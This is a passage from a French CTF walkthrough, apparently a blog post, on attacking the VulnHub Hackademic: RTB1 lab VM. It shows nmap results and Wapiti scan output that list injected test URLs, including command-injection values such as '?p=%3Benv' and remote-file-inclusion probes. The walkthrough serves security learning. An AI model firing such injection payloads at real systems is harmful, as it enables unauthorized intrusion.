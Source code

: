 # Solution du CTF Hackademic: RTB1

Introduction
------------

La challenge [Hackademic: RTB1](http://vulnhub.com/entry/hackademic_rtb1,17/) (toujours sur *VulnHub*) propose une image virtuelle *VMWare* d'un système Linux.  

L'objectif de ce CTF est de lire le contenu du fichier */root/key.txt*  

Le système n'a pas beaucoup de ports ouverts, ce qui réduit nos angles d'attaque :  

```plain
Nmap scan report for 192.168.1.62
Host is up (0.00022s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Hackademic.RTB1  
MAC Address: 00:0C:29:1B:87:E3 (VMware)
```

*Nmap* devine un Kernel Linux 2.6.  

Webploitation
-------------

Si on accède au site on a une page d'accueil avec un lien vers */Hackademic\_RTB1/*. Les pages sont en PHP et prennent des paramètres. Je lance [Wapiti](http://wapiti.sourceforge.net/) (parce que *Wapiti* c'est bien ;-) ) sans plus tarder :  

```plain
> ./bin/wapiti http://192.168.1.62/Hackademic_RTB1/
Wapiti-2.3.0 (wapiti.sourceforge.net)

 Note
========
Le scan a été sauvegardé dans le fichier /tmp/.wapiti/scans/192.168.1.62.xml
Vous pouvez l'utiliser pour lancer de futures attaques sans avoir à relancer le scan via le paramètre "-k"
[*] Chargement des modules :
         mod_crlf, mod_exec, mod_file, mod_sql, mod_xss, mod_backup, mod_htaccess, mod_blindsql, mod_permanentxss, mod_nikto, mod_delay

[+] Lancement du module exec
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?%3Benv
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=%3Benv
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=%3Benv

[+] Lancement du module file
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?http%3A%2F%2Fwww.google.fr%2F%3F
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?feed=
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=http%3A%2F%2Fwww.google.fr%2F%3F
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=http%3A%2F%2Fwww.google.fr%2F%3F

[+] Lancement du module sql
```